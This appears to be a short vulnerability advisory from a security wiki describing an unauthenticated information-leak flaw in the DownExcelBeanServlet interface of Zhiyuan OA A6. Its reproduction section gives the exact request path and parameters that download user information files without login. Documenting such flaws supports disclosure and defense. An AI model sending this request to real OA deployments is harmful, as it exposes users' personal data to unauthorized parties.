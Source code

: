 # Zhiyuan OA A6 DownExcelBeanServlet User sensitive information leak

## Vulnerability Description

Zhiyuan OA A6 There is an unauthorized interface that causes any visitor to download user information in the OA.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA A6</span>

## Network surveying and mapping



## Vulnerability reappears

Visit the following URL to jump to download user information files

```plain
/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-18.png)